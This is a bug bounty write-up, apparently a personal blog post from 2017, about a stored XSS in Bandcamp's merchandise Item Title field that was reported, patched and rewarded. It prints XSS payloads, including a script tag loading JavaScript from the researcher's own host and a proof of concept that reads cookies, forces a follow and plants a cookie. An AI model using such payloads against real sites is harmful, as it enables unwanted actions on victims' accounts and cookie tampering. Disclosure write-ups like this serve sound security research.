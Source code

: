 ```yaml
---
layout: post
title: "Stored XSS in BandCamp"
---
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Recently, while my friend <a href="https://twitter.com/_psycho_mantis" rel="noopener noreferrer" style="color:#DC0739;text-decoration:none;"><b>Alyssa Herrera</b></a> and I were collaborating on finding ffmpeg vulnerabilities in bug bounty programs, we came to learn that **Bandcamp** ran a bug bounty program. If you have never heard of BandCamp, it is essentially a platform that allows artists, fans, and labels to interact, connect, and support each other.

I instantly was curious to see what I could find, so I signed up for an artist account and created a Bandcamp page. The first function I started to test was the **Add Music** function. This part of the site allows artists to add albums and tracks. I tested for IDOR and XSS, but sadly it wasn't vulnerable to either.

The next function I thought I wanted to test was the **Add Merch** function. There were 2 main parameters in this function that I wanted to test for XSS in immediately. I wanted to see if either the *Item Title* or *Description* accepted / rendered any HTML.
I put in a simple XSS payload for both:  `<svg/onload=confirm(0)>`

I saved and published the new "merchandise", and voila:
NOTHING happened. It was sanitized and I was bummed that it didn't work.
Then I saw the **Buy Now** button, so I clicked it, which opened a new frame and my XSS fired! They were not correctly sanitizing the **Item Title** in this frame, thus allowing an attacker to simply insert any HTML or javascript.

I am always reluctant in submitting an XSS with merely alert() because it just shows I was too lazy to actually come up with a cool proof-of-concept.
With that in mind, I came up with this POC:
```javascript
alert("Stored XSS on BandCamp");
alert("Your cookies: " + document.cookie);
document.getElementById("follow-unfollow").click();alert("Thanks for the follow :^D");
document.cookie="hacker=cdl;path=/;domain=.bandcamp.com";  
```
Then changed the **Item Title** to `<script src=//sxcurity.pro/bandcamp.js></script>`
which made the victim follow me and set the cookie "hacker" to "cdl" for bandcamp.com and all subdomains in their browser!
<br>Proof of concept video:
<iframe src="https://player.vimeo.com/video/224109910" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe>
<br>
<h2><u>Timeline</u></h2>
- (6/29/2017) Reported XSS to Bandcamp via Email
- (6/30/2017) Confirmed, Patched, & Awarded with a $500 bounty!  

<br>
Thanks for reading,<br><br>
**Corben Leo** (<font color="#E22A3C">@sxcurity</font>)
- https://hackerone.com/cdl
- https://twitter.com/sxcurity
- https://bugcrowd.com/c
- https://github.com/sxcurity
